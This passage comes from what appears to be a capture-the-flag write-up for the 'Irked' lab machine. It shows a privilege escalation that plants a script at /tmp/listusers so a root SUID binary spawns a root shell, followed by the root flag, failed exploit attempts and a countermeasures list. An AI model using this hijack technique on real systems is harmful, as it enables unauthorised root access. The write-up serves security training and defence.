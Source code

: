 Notably, the `/usr/bin/viewuser` stands out as a custom application. I figured I might be able to abuse this binary since it will run with root privileges:

```none
djmardov@irked:/dev/shm$ /usr/bin/viewuser -h
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-21 16:29 (:0)
ircd     pts/1        2020-09-21 20:03 (10.10.14.18)
sh: 1: /tmp/listusers: not found
```

The error `sh: 1: /tmp/listusers: not found` is super suspicious because it looked like a failed shell invocation.
Since the `/tmp/` directory is world-writable, I wrote a shell script so that the script would invoke a shell with root privileges:

```none
djmardov@irked:/dev/shm$ echo '#!/bin/sh' > /tmp/listusers
djmardov@irked:/dev/shm$ echo '/bin/bash' >> /tmp/listusers
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-21 16:29 (:0)
ircd     pts/1        2020-09-21 20:03 (10.10.14.18)
root@irked:/dev/shm# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

From here, I was able to compromise the system and grab the root flag:

```none
root@irked:/dev/shm# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

### Failed Privilege Escalation Enumeration

* Failed Dirty COW exploit
* Failed CUPS exploits

## Countermeasures

* Upgrade to the latest version of Unreal IRCd. Carefully watch the changelogs to ensure no backdoor trojans are introduced and always download Unreal IRCd binaries from trusted sources.
* Don't give other users on the system hints on where to find your passwords.
* Restrict SUID binaries to be executable as root only by a particular group of users.
